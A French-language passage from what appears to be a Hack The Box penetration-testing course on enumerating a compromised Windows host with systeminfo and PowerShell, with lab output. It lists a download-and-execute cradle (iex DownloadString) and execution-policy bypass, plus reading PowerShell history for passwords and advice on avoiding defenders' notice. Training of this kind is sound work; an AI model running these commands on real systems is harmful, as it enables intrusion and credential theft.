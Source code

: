 Les commandes ci-dessus nous donneront une première image rapide de l'état dans lequel se trouve l'hôte, ainsi que des informations de base sur le réseau et le domaine. Nous pouvons couvrir les informations ci-dessus avec une seule commande [systeminfo](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/systeminfo) .

#### Information système

![image](https://academy.hackthebox.com/storage/modules/143/systeminfo.png)

La `systeminfo`commande, comme vu ci-dessus, imprimera un résumé des informations de l'hôte pour nous dans une sortie ordonnée. L'exécution d'une commande générera moins de journaux, ce qui signifie moins de chances que nous soyons remarqués sur l'hôte par un défenseur.

* * * * *

Exploiter PowerShell
--------------------

PowerShell existe depuis 2006 et fournit aux administrateurs système Windows un cadre complet pour administrer toutes les facettes des systèmes Windows et des environnements AD. C'est un langage de script puissant et peut être utilisé pour approfondir les systèmes. PowerShell possède de nombreuses fonctions et modules intégrés que nous pouvons utiliser dans le cadre d'un engagement pour reconnaître l'hôte et le réseau et envoyer et recevoir des fichiers.

Examinons quelques-unes des façons dont PowerShell peut nous aider.

| Cmd-Let | Description |
| --- | --- |
| `Get-Module` | Répertorie les modules disponibles chargés pour être utilisés. |
| `Get-ExecutionPolicy -List` | Imprime les paramètres [de stratégie d'exécution](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-7.2) pour chaque étendue sur un hôte. |
| `Set-ExecutionPolicy Bypass -Scope Process` | Cela changera la politique de notre processus actuel utilisant le `-Scope`paramètre. Cela annulera la politique une fois que nous quitterons le processus ou que nous y mettrons fin. C'est idéal car nous n'apporterons pas de modification permanente à l'hôte de la victime. |
| `Get-Content C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt` | Avec cette chaîne, nous pouvons obtenir l'historique PowerShell de l'utilisateur spécifié. Cela peut être très utile car l'historique des commandes peut contenir des mots de passe ou nous diriger vers des fichiers de configuration ou des scripts contenant des mots de passe. |
| `Get-ChildItem Env: | ft Key,Value` | Renvoie les valeurs d'environnement telles que les chemins d'accès clés, les utilisateurs, les informations sur l'ordinateur, etc. |
| `powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"` | Il s'agit d'un moyen simple et rapide de télécharger un fichier sur le Web à l'aide de PowerShell et de l'appeler de mémoire. |

Voyons-les maintenant en action sur l' `MS01`hôte.

#### Vérifications rapides à l'aide de PowerShell

  Vérifications rapides à l'aide de PowerShell

```
PS C:\htb> Get-Module

ModuleType Version    Name                                ExportedCommands
---------- -------    ----                                ----------------
Manifest   1.0.1.0    ActiveDirectory                     {Add-ADCentralAccessPolicyMember, Add-ADComputerServiceAcc...
Manifest   3.1.0.0    Microsoft.PowerShell.Utility        {Add-Member, Add-Type, Clear-Variable, Compare-Object...}
Script     2.0.0      PSReadline                          {Get-PSReadLineKeyHandler, Get-PSReadLineOption, Remove-PS...

PS C:\htb> Get-ExecutionPolicy -List
Get-ExecutionPolicy -List

        Scope ExecutionPolicy
        ----- ---------------
MachinePolicy       Undefined
   UserPolicy       Undefined
      Process       Undefined
  CurrentUser       Undefined
 LocalMachine    RemoteSigned
```